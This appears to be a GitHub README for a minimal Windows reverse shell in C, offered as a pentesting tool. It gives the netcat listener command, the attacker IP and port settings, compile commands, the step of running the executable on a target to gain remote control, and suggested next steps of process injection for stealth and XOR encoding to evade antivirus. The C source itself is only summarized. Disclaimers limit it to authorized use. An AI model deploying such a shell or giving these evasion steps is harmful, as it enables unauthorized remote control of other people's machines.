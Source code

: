 Simple Reverse Shell in C
A minimal reverse shell written in C for Windows. The program establishes a TCP connection to a remote attacker's machine, redirecting cmd.exe input/output for remote control.

⚠ Warning: This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is illegal.

Features
✅ Connects to a remote listener (attacker's machine)
✅ Redirects standard input/output to the attacker's terminal
✅ Works on Windows (uses winsock2.h)
✅ Simple and lightweight (~10 KB compiled)

Usage
1. Start a Listener on the Attacker's Machine
Use Netcat (nc) to listen for incoming connections:

sh
Copy
Edit
nc -lvnp 4444
🔹 Replace 4444 with the port number you plan to use.

2. Modify and Compile the Reverse Shell
Edit reverse_shell.c and change:

c
Copy
Edit
#define REMOTE_IP "192.168.1.100"  // Change to your attacker's IP
#define REMOTE_PORT 4444           // Change to your listening port
Compile using MinGW (GCC for Windows):

sh
Copy
Edit
x86_64-w64-mingw32-gcc reverse_shell.c -o reverse_shell.exe -lws2_32
or using Microsoft Visual Studio:

sh
Copy
Edit
cl reverse_shell.c ws2_32.lib
3. Run the Reverse Shell on the Target Machine
Execute the compiled reverse_shell.exe:

sh
Copy
Edit
reverse_shell.exe
Once executed, the target machine will connect to the attacker's listener.

4. Get Control of the Target Machine
After the connection is established, the attacker's Netcat shell will allow remote command execution.

Code Explanation
The key parts of reverse_shell.c:

Winsock Initialization (WSAStartup())
Sets up Windows networking for socket communication.
Socket Connection (connect())
Connects to the attacker's IP and port.
I/O Redirection (CreateProcess())
Redirects standard input/output to the attacker's machine.
Cleanup (WSACleanup())
Ensures proper release of network resources.
Disclaimer
🚨 Legal Warning:
This software is provided for educational purposes only. Unauthorized use, hacking, or deploying this code on systems without permission is illegal and may result in severe penalties.

⚠ Use this tool only with explicit authorization from the target system owner.
By using this software, you agree that the authors are not responsible for any misuse or illegal activities.

Next Steps
🔹 Stealth Mode: Hide process execution using process injection.
🔹 Encoding: Evade antivirus detection using XOR encryption.
🔹 Portability: Modify for Linux/Mac compatibility.

